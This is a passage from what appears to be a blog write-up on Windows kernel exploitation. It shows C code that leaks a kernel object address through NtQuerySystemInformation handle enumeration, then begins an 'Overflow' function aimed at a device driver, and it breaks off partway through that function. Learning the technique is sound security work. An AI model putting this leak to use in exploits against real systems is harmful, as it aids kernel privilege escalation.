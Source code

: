     SYSTEM_HANDLE_INFORMATION_EX  HandleInfo;
    PSYSTEM_HANDLE_INFORMATION_EX pHandleInfo;

    r = FALSE;
    pObject = NULL;

    NtQuerySystemInformation_t pNtQuerySysInfo;
    pNtQuerySysInfo = (NtQuerySystemInformation_t)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtQuerySystemInformation");
    if (pNtQuerySysInfo == NULL)
    {
        printf("Failed to get NtQuerySystemInformation\n");
        goto Exit;
    }

    status = pNtQuerySysInfo(SystemExtendedHandleInformation, &HandleInfo, sizeof(HandleInfo), &ReturnedLength);
    if (status != STATUS_INFO_LENGTH_MISMATCH)
    {
        printf("NtQuerySystemInformation unexpected status: %x\n", status);
        goto Exit;
    }

    pHandleInfo = (PSYSTEM_HANDLE_INFORMATION_EX)HeapAlloc(GetProcessHeap(), 0, ReturnedLength);
    if (pHandleInfo == NULL)
    {
        printf("HeapAlloc for " __FUNCTION__ " failed\n");
        goto Exit;
    }

    status = pNtQuerySysInfo(SystemExtendedHandleInformation, pHandleInfo, ReturnedLength, &ReturnedLength);
    if (NT_SUCCESS(status) == FALSE)
    {
        printf("NtQuerySystemInformation failed: %x\n", status);
        goto FreeExit;
    }

    Pid = GetCurrentProcessId();
    for (ULONG_PTR i = 0; i < pHandleInfo->NumberOfHandles; i++)
    {
        if ((pHandleInfo->Handles[i].UniqueProcessId == Pid))
        {
            if (pHandleInfo->Handles[i].HandleValue == (ULONG_PTR)hObject)
            {
                pObject = pHandleInfo->Handles[i].Object;
                break;
            }
        }
    }

FreeExit:
    HeapFree(GetProcessHeap(), 0, pHandleInfo);
Exit:
    return pObject;
}
{% endhighlight %}
Glueing all together:
{% highlight C %}
BOOL Overflow(
    HANDLE hDevice,
    PVOID *pObject,
    PHANDLE pHandle
)
{
    BOOL  r;
    DWORD ReturnedLength;